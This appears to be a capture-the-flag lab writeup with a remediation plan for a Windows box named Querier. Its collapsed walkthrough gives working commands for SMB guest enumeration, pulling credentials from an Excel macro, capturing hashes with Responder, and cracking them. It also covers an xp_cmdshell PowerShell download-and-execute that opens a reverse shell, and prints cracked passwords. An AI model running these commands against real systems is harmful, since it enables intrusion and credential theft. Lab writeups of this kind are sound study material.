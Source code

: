 # Security Remediation Plan

## Identified Security Vulnerabilities

The primary security vulnerabilities identified stem from two key issues:

- **Unauthorized Guest Access:** Improper configuration of access controls allowing guest users to log on to the SMB share "REPORTS."
- **Insufficient File Cleanup:** Failure of local administrators and users to properly clean up sensitive files, resulting in the retention of login credentials within Excel macros and configuration files for unattended installations.

These vulnerabilities pose a significant risk, as they could potentially expose critical authentication data to unauthorized individuals, increasing the likelihood of unauthorized access and exploitation of the network.

## Recommended Remediation Steps

To effectively remediate these issues, the following steps should be taken:

1. **System Scrubbing:** Conduct a thorough review and cleanup of the system to identify and remove any leftover configuration files associated with unattended installations. This ensures no sensitive data remains within the system.

2. **Disable Guest Access to SMB Shares:** Immediately disable guest access to the SMB share "REPORTS" to prevent unauthorized users from gaining access to sensitive information.

3. **Establish Strong Policies:** Implement and enforce strict policies for both users and administrators, explicitly prohibiting the storage of passwords in clear text locally. Educate staff on secure password management practices and implement technical controls to minimize the risk of sensitive data being exposed.

By addressing these points, the system will be better secured and the risk of unauthorized access or data breaches significantly reduced.

## Guides

<details>
  <summary>Steps to Recreate Compromise</summary>
  
# Recreating the Compromise

## Step 1: Reconnaissance

Using the following commands, I was able to get information on the open ports and then moved to see if there were any public-facing SMB shares.

nmap -sV -sS -A 10.129.156.234

Please see below for a screenshot of the output of the commands.
![nmap output](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/nmap.png)

Next, we moved to see if there were any shares available.

smbclient -N -L \\\\\\\\10.129.156.234

Please see below for a screenshot of the output of the commands.
![smb shares](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_enumeration.png)

## Step 2: Initial Access

Through the above reconnaissance we were able to identify the "Reports" share
We can test if this share allows guest logon through the following
smbclient -N \\\\\\\\10.129.156.234\\\\Reports
This will succeed and by using the "ls" command we can see that 

"Currency Volume Report.xlsm" is saved here
![smb vuln file](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_available_file.png)

use the following command to save this file locally.

get "Currency Volume Report.xlsm"

The "m" in ".xlsm" means there are macros enabled.
We will next unzip the file with the "unzip" command.
Once it is unzipped use the following command to gain access to our first set of compromised credentials.

head xl/vbaProject.bin | strings
![first creds gathered](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/Initial_creds_comp.png)

## Step 3: Privilege Escalation  

Before you move forward with this section we will need a few tools

- johntheripper
- impacket-mssqlclient
- impacket-psexec
- netcat
- python3 http.server
- responder

the first thing we will be doing is getting 2 terminal windows open. Please pay attention because we will be jumping between the 2 throughout this section.
We will track which we are in with one terminal being labeled "Term 1" and the other being "Term 2".

Term 1: Log into the system with the following command:
impacket-mssqlclient reporting:@10.129.156.234 -windows-auth

Term 2:
Use the following command to setup our listener:

responder -I [YOUR INTERFACE CONNECTED TO THE NETWORK WITH THE VULNERABLE BOX]

Information can be found using "ip addr show"

Term 1:
Next we will send the hashes from the SQL Service with the following command:

xp_dirtree '\\\\[YOUR LOCAL IP]\share\file'

Now you should have been able to gather the hashes on term 2. Please see below for the full output.

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/responder_cred_grab.png)

Next we will take that hash and put it into johntheripper and have the following credentials recovered:

john password_hash -w=/usr/share/wordlist/rockyou.txt

mssql-svc:corporate568

now login with those credentials using:

impacket-mssqlclient mssql-svc:@10.129.156.234 -windows-auth

next on our local machine we will set up a listener with netcat, and a webserver using python3.

Python3 server will be hosting 2 files
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1

For the first one you will add the following line to the end:

Invoke-PowerShellTcp -Reverse -IPAddress YOUR_LOCAL_IP -Port PORT_CHOSEN

For the second link you will add the following to the end of the script:

Invoke-AllChecks

Next create 2 terminals locally and do the following:
Term 1: python3 -m http.server 80
Term 2: nc -lvnp PORT_CHOSEN

now back on the terminal connected to our target input the following:

xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://YOUR_LOCAL_IP/Invoke-PowerShellTcp.ps1\")

You now have a shell on your netcat listener.

Next type in the following to your shell:

iex(new-object net.webclient).downloadstring("http://YOUR_LOCAL_IP/PowerUp.ps1")

this will give the following output:

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/admin_cred_grab.png)

With these credentials you can now gain full acccess to the system using "impacket-psexec Administrator:MyUnclesAreMarioAndLuigi!!1!@"

</details>

<details>
  <summary>SMB Guest Access Lockdown</summary>
  
  1. **Step 1:** Disable guest access to the SMB share by adjusting the appropriate access control settings on the server.
  2. **Step 2:** Review and confirm that only authorized users and groups have access to the share.
  3. **Step 3:** Ensure the system is configured to prevent guest access in the future by disabling guest accounts or limiting permissions.
  4. **Step 4:** Document the updated access control configuration and test to confirm restrictions are enforced.

</details>

